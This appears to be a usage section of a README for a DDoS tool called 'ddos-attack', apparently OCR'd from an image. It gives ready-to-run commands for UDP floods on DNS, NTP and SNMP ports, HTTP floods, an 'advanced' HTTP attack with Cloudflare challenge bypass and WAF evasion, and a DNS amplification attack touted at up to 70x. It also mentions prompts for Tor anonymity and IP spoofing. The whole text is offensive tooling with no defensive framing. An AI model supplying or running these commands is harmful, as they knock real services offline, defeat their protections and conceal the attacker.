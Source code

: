 #### UDP Flood Attack
```bash
./target/release/ddos-attack layer4 \
  --targets "192.168.1.100" \
  --ports "53,123,161" \
  --protocol udp \
  --threads 100 \
  --rate 2000 \
  --size 512

# The tool will ask:
# 🔒 Do you want to use Tor for anonymity? (y/N): 
# 🎭 Do you want to enable IP spoofing? (requires root) (y/N): 
```

### 2. Layer 7 Attacks (HTTP/HTTPS)

#### HTTP Flood Attack
```bash
./target/release/ddos-attack layer7 \
  --targets "https://example.com" \
  --threads 50 \
  --rate 100 \
  --method GET \
  --user-agent "Mozilla/5.0 Custom Agent"

# The tool will ask:
# 🔒 Do you want to use Tor for anonymity? (y/N): 
```

#### Advanced HTTP Attack with Evasion
```bash
./target/release/ddos-attack layer7 \
  --targets "https://example.com" \
  --threads 100 \
  --rate 200 \
  --method GET \
  --cloudflare-bypass \
  --waf-evasion \
  --random-useragent

# Includes:
# - Cloudflare challenge bypass
# - WAF evasion techniques
# - Random User-Agent rotation
```

#### DNS Amplification Attack
```bash
./target/release/ddos-attack dns-amp \
  --target "192.168.1.100" \
  --domain "google.com" \
  --threads 20 \
  --rate 500 \
  --duration 300

# High-impact reflection attack
# Up to 70x amplification factor
```
